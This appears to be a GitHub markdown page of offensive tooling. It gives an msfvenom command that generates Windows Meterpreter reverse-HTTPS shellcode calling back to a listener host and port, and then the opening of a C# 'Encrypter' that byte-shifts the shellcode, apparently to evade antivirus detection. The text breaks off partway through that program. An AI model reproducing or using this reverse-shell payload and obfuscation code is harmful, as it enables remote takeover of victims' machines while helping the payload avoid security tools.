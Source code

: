 
## 🔹 Visual Flow (Quick Review Map)


<img width="1620" height="2754" alt="_- visual selection (3)" src="https://github.com/user-attachments/assets/9649e367-cfd9-4b51-8028-c80085d3b85e" />


---

# Full code

1. Shellcode
    
    ```visual-basic
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.2.142 LPORT=4444 -f csharp
    ```
    
2. Encrypter 
    
    ```csharp
    using System;
    using System.IO;
    using System.Text;
    
    namespace Encrypter
    {
        class Program
        {
            static void Main(string[] args)
            {
                byte[] buf;
    
                if (args.Length == 0)
                {
                    Console.WriteLine("Usage:");
                    Console.WriteLine("  Encrypter.exe <shellcode.txt | raw bytes>");
                    Console.WriteLine("Example (file): Encrypter.exe shellcode.txt");
                    Console.WriteLine("Example (inline): Encrypter.exe 0xfc,0x48,0x83,0xe4,0xf0");
                    return;
                }
    
                // 🔹 Option 1: Read from file if argument is a file
                if (File.Exists(args[0]))
                {
                    string fileContent = File.ReadAllText(args[0]).Trim();
                    buf = ParseShellcode(fileContent);
                }
                else
                {
                    // 🔹 Option 2: Treat argument as inline shellcode string
                    buf = ParseShellcode(args[0]);
                }
    
                // 🔹 Encrypt shellcode
                byte[] encoded = new byte[buf.Length];
                for (int i = 0; i < buf.Length; i++)
                {
                    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
                }
    